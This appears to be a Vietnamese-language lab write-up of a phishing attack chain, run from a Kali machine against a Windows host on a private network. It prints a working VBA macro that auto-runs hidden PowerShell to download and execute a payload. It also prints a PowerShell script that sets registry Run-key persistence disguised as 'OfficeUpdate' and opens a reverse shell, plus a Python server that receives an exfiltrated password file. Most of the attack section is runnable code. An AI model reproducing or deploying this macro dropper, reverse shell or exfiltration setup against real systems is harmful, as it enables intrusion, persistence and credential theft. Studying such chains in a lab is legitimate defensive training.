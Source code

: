 # Attack Flow

```
                          +----------------------+                         +-----------------------+
                          |                      |                         |                       |
                          |     Kali Linux       |                         |    Windows Target     |
                          |  IP: 192.168.200.132 |                         |  IP: 192.168.200.137  |
                          |                      |                         |                       |
                          +----------+-----------+                         +-----------^-----------+
                                     |                                                 |
                                     |                      ATTACK                     |
                                     |------------------------------------------------>|
```

## Chi tiết:

### 1. Email Phishing

- Attacker gửi email `zip` tới victim
![image](images/1.png)

- Giải nén nhận được 1 file `.xlsm`
![image](images/2.png)


### 2. Thực thi Macro VBA

- Nội dung đoạn mã:
```VBA
Private Sub Workbook_Open()
    Dim cmd As String
    cmd = "powershell -w hidden -nop -c ""Invoke-WebRequest 'http://192.168.200.132:8000/Test.ps1' -OutFile $env:TEMP\payload.ps1; powershell -ep bypass -f $env:TEMP\payload.ps1"""
    Shell cmd, vbHide
End Sub
```

- Thực hiện tải file độc hại `Test.ps1` từ máy `Kali`, lưu vào thư mục `TEMP` với tên là `payload.ps1` và tiến hành thực thi script

#### Góc nhìn Victim
![image](images/3.png)

#### Góc nhìn Attacker
- Nội dung `Test.ps1`
```powershell
$RegPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$Name = "OfficeUpdate"
$Value = "powershell.exe -w hidden -ep bypass -File `"$env:TEMP\payload.ps1`""

if (-not (Get-ItemProperty -Path $RegPath -Name $Name -ErrorAction SilentlyContinue)) {
    try {
        New-ItemProperty -Path $RegPath -Name $Name -Value $Value -PropertyType "String" | Out-Null
    } catch {}
}

$client = New-Object System.Net.Sockets.TCPClient('192.168.200.132',4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}

while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){
    $data = (New-Object System.Text.ASCIIEncoding).GetString($bytes,0,$i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}

$client.Close()
```
- Thiết lập `persistent` đồng thời `reverse shell` về máy chủ `Kali`
![image](images/4.png)

### 3. Data Exfiltration

- Sau khi thấy được file `Password.txt`, attacker thực hiện mở `POST` method để lấy file về
```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class SimpleHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(length)
        with open("Password.txt", "wb") as f:
            f.write(post_data)
        
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"File received successfully")

if __name__ == "__main__":
    server = HTTPServer(("0.0.0.0", 8000), SimpleHandler)
    print("Listening on port 8000...")
    server.serve_forever()
```
![image](images/5.png)

- Trích xuất thành công
![image](images/6.png)

## Tóm tắt diễn biến

| Step | Attacker Action | Victim Action | Result |
|------|-----------------|---------------|--------|
| 1 | **Email Phishing** – Attacker gửi email `.zip` chứa file `.xlsm` độc hại | Victim tải file về | File độc hại vào máy Victim |
| 2 |  – | Victim giải nén `.zip`, thu được `.xlsm` | File sẵn sàng mở |
| 3 | **Macro Execution** – VBA Macro chứa lệnh tải và chạy script | Victim mở file và enable Macro | PowerShell được khởi chạy ngầm |
| 4 | **Payload Download** – Macro dùng `Invoke-WebRequest` tải `Test.ps1` từ Kali (`192.168.200.132`) | – | File `payload.ps1` lưu tại `%TEMP%` |
| 5 | **Payload Execution** – PowerShell chạy `payload.ps1`| – | Reverse shell kết nối về Attacker và cơ chế `persistent` được thiết lập|
| 6 | **Reverse Shell** – `payload.ps1` tạo kết nối ngược về `Kali`| – | Attacker có shell điều khiển từ xa |
| 7 | **File Discovery** – Attacker dùng shell duyệt thư mục `Documents` tìm thấy `Password.txt` | – | Phát hiện file chứa thông tin nhạy cảm |
| 8 | **Data Exfiltration** – Attacker chạy PowerShell script đọc `Password.txt` và POST về server Kali port 8000 | – | File dữ liệu được gửi thành công sang máy Attacker |